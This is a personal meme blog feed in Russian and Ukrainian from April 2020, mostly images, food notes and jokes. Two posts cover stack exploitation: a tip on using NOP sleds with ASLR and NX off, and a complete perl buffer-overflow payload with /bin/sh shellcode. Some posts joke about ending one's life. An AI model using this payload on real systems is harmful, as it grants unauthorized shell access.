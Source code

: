 date: 2020-04-29 23:03:29
постинг тупых мемов продолжается
-----
same energy

![](/blog/static/img/zWt7Hzh4Av4.jpg)
![](/blog/static/img/Pwk8VASAywo.jpg)

date: 2020-04-29 01:55:30
Стався

![](/blog/static/img/09R_TcVjrqA.jpg)

date: 2020-04-27 23:15:23
Бігаю коли треба. Коли не треба не бігати.

![](/blog/static/img/3-WFCe54l0A.jpg)

date: 2020-04-22 17:28:22
У меня разрядилась батарейка на мышке, поэтому я теперь как конч сижу с графпланшетом как мышкой. Принимаю заказы, что нарисовать, цена: 0 долларов по сегодняшнему курсу. Примеры моих работ прикрепляю

![](/blog/static/img/jDbNyNCbp0Y.jpg)
![](/blog/static/img/OXtkf5Z3Od8.jpg)

date: 2020-04-20 23:03:04
Админ упарывается диффурами, функаном, вариационным анализом и матфизикой с щепоткой квантовой физики
связаны. связаны

![](/blog/static/img/YSwCdDIoKyo.jpg)

date: 2020-04-19 10:39:16
![](/blog/static/img/X1CP8Gz0owk.jpg)
![](/blog/static/img/CXrUjewnou0.jpg)

date: 2020-04-17 03:08:55
Ежевечный пост о том, что слушать на работе
радио сычхаос
http://radcap.ru/witchhouse.html

date: 2020-04-16 20:01:42
1536. Гренки

![](/blog/static/img/PL5csSKZADc.jpg)

date: 2020-04-15 22:07:18
Достижение получено: есть собственно приготовленные жареные куски теста со сметаной в течение трех дней и не сдохнуть.👍🏻

![](/blog/static/img/dVlcLgg18wM.jpg)

date: 2020-04-15 10:40:35
❤👇🏻
![](/blog/static/img/98nSIHInGdE.jpg)

date: 2020-04-13 21:20:54
![](/blog/static/img/tenor.gif)

date: 2020-04-10 20:17:24
134468. Панкейки

![](/blog/static/img/s7WHzQzHMnY.jpg)

date: 2020-04-09 11:45:43
![](/blog/static/img/n7Zz3lTXQds.jpg)

date: 2020-04-07 00:29:36
(имя и фото изменены на вымышленные)

![](/blog/static/img/BStubplyAmg.jpg)

date: 2020-04-05 01:48:43
Полезные советы молодым пывнерам #42:

Чтобы вызвать шелкод со стека вне дебагера, можно добавить 100 или более нопов и к адресу возврата, полученному из дебагера прибавить половину длины нопслайда(в нашем случае 50). Работает понятно только с выключенным ASLR & NX, но зато стабильно. Также полезно спать, а не заниматься перебором оффсетов в полпервого ночи.

![](/blog/static/img/bFWv4ECx90Q.jpg)

date: 2020-04-04 23:58:39
Это я, пытаюсь понять, зачем чел выделяет 0x68=104 байт на стеке, а юзает только 64+4+8=76

![](/blog/static/img/Xchf-A-ROW8.jpg)

date: 2020-04-04 09:11:00
![](/blog/static/img/0psPeWqTFlM.jpg)

date: 2020-04-03 22:58:44
На случай важных переговоров
(perl -e 'print "A" x 76 . pack("I", 0xbffff780) . "\x90" x 60 . "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b"'; echo id)

date: 2020-04-01 12:40:35
Если уж собрался заканчивать жизнь😨, то почему бы ❓не отдать все деньги💰 на благотворительность💌. А раз есть такая возможность, то можно еще и поиграть в игрульки🏆, почему бы нет🤔.
https://www.humblebundle.com/conquer-covid19-bundle

date: 2020-04-01 12:04:07
Жизнь — это боль. Я каждое утро просыпаюсь с болью, хожу на работу с болью! Сказать, сколько раз мне хотелось послать все к черту, свести счеты с жизнью?

![](/blog/static/img/HaSC0UIR8B4.jpg)

